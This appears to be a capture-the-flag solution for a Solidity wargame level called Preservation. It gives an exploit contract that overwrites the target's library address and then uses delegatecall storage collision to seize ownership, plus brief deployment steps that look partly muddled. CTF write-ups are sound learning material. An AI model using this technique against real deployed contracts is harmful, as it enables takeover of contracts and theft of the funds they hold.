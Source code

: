 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Preservation {
    function setFirstTime(uint) external;

}

contract Exploit {

    address public o;
    address public p;
    address public owner;

    function exploit(address _who) public {
        Preservation(_who).setFirstTime(uint(address(this)));
    }

    function setTime(uint _time) public {
        owner = address(tx.origin);
    }
}
```
- Call exploit()
- Call setTime() on your ocntract instance, with any value
